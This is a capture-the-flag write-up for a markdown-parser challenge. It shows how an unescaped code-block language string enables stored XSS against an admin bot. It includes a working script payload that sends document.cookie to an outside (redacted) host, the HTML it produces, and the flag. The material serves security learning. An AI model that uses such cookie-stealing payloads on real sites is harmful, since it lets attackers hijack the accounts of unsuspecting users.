






# Markdown Parser

> I built this simple markdown parser. Please give me some feedback (in markdown), I promise to read them all. Current features include: bold, italics, code blocks with syntax highlighting!
> 
> Author: ocean
> 
> http://challs.nusgreyhats.org:33335

Solution:

We are given with the source files for the challenge.

Since there's an [admin.js](admin.js) file, we can assume that this is an XSS challenge and we have to retrieve the flag from the cookie of the admin bot.

Now, how do we exploit it? Let's take a look at the challenge website...





So the text that we input in the text field gets encoded to base64 and then displayed back to us. If we click the `Submit Feedback` button, it gets sent to `/feedback` which is then fed to the admin bot.

Does it sanitize/parse/format our input? Yep, it happens at [markdown.js](markdown.js)

However, we can escape that at
```javascript
if (line.startsWith('```')) {
    language = line.substring(3).trim();
    inCodeBlock = true;
    htmlOutput += '<pre><code class="language-' + language + '">';
```

Let's say our payload is
```
```"><script> function postCookies() { fetch("https://redacted/", { method: "POST", body: JSON.stringify({ cookies: document.cookie }) }) }; postCookies(); </script>
test
```a
```

With `line.substring(3).trim()`, the concatenated value for the `htmlOutput` becomes

```html
<pre><code class="language-'"><script> function postCookies() { fetch("https://redacted/", { method: "POST", body: JSON.stringify({ cookies: document.cookie }) }) }; postCookies(); </script> '">
```

The extra
```
test
```a
```

Is for the

```javascript
if (line.startsWith('```')) {
    inCodeBlock = false;
    htmlOutput += '</code></pre>';
```

So it gets closed properly and so we can see the submit feedback button

As a test, I added a dummy cookie.





Cool! That works, time to send the "feedback" :D





Nice!

Flag: `grey{m4rkd0wn_th1s_fl4g}`